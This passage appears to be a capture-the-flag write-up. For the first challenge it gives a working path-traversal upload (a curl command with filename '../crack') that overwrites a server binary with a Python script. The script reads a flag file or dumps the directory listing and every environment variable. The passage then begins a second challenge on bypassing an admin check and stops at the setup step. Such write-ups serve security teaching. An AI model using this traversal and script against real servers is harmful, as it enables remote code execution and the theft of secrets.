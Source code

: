 * The app executes `/app/crack` for every uploaded file.
* By overwriting `/app/crack` with your own Python script, the server now executes your code instead of the original hash cracker.


### Exploit script

Create a file `crack.py` with the following content:

```python
#!/usr/bin/env python3
import os

print("hash_factory v1.0:")

flag_path = "/app/flag"

try:
    with open(flag_path, "r") as f:
        print(f.read().strip())
except FileNotFoundError:
    print("[fallback] listing / and env...")
    print("\n".join(os.listdir("/")))
    for k, v in os.environ.items():
        print(f"{k}={v}")
```

Use `curl` to overwrite `/app/crack` and get the flag:

```bash
curl -s -F 'hash_file=@crack.py;filename=../crack' http://127.0.0.1:5000/
```

**Output:**

```html
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@picocss/pico@2/css/pico.min.css" />
<div style="width:48rem;margin:2rem auto;"><pre>hash_factory v1.0:
LOCALFLAG{test_flag_123}
</pre></div>
```

## Challenge2: Go-brr

This challenge is a web application that combines a Go-based authentication service and a Flask frontend. The goal is to bypass the admin check and retrieve the flag.


Build and run the app locally:

```bash
docker-compose build
docker build -t go-brr-app .
docker-compose up
```

Now the application should be running:
